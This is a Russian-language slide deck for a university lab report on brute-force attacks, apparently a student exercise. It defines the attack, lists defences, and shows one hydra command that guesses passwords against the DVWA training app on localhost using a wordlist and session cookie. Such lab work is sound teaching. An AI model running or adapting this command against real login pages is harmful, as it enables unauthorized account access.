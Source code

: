 ```yaml
---
## Front matter
lang: ru-RU
title: Индивидуальный проект - этап 3
author: |
	 Буянбадрах Тогтохжав\inst{1}

institute: |
	\inst{1}Российский Университет Дружбы Народов

date: 3 марта, 2025, Москва, Россия

## Formatting
mainfont: PT Serif
romanfont: PT Serif
sansfont: PT Sans
monofont: PT Mono
toc: false
slide_level: 2
theme: metropolis
header-includes: 
 - \metroset{progressbar=frametitle,sectionpage=progressbar,numbering=fraction}
 - '\makeatletter'
 - '\beamer@ignorenonframefalse'
 - '\makeatother'
aspectratio: 43
section-titles: true

---
```


# Цели и задачи работы

## Цель лабораторной работы

Целью данной работы является изучение атак типа брут-форс и инструмента hydra.

# Процесс выполнения лабораторной работы

## Введение

Атака брут-форс (англ. brute force attack) — это метод взлома, основанный на последовательном 
переборе возможных комбинаций значений (паролей, ключей шифрования и т. д.), 
чтобы подобрать правильное значение и получить несанкционированный доступ.

## Введение

Атаки брут-форс являются одним из самых простых, но эффективных способов взлома учетных записей, 
если системы не защищены должным образом. 

Сильные пароли, ограничения на количество попыток входа и двухфакторная аутентификация 
могут значительно уменьшить вероятность успешной атаки.

## Страница веб-формы

![Страница веб-формы](image/01.png){ #fig:001 width=70% height=70% }

## Команда для запуска hydra

```bash

hydra -l admin -P /usr/share/dirb/wordlists/small.txt \
 localhost http-get-form "/DVWA/vulnerabilities/brute/ \
 :username=^USER^&password=^PASS^&Login=Login: \ 
 H=Cookie: PHPSESSID=f2q94tbasiksr9q31mlg9d4qum; \ 
 security=medium:F=Username and/or password incorrect."  \
 -V

```

## Результат подбора

![Результат подбора](image/03.png){ #fig:003 width=70% height=70% }

# Выводы по проделанной работе

## Вывод

Мы приобрели знания об атаках брут-форс и инструменте hydra.